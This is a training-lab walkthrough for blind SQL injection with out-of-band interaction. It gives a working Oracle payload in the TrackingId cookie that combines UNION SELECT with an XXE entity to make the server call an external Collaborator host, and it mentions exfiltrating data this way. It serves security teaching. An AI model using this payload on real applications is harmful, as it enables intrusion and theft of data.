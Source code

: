 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

#### Note

> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---

**Solution:**
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

```php
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
  
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.



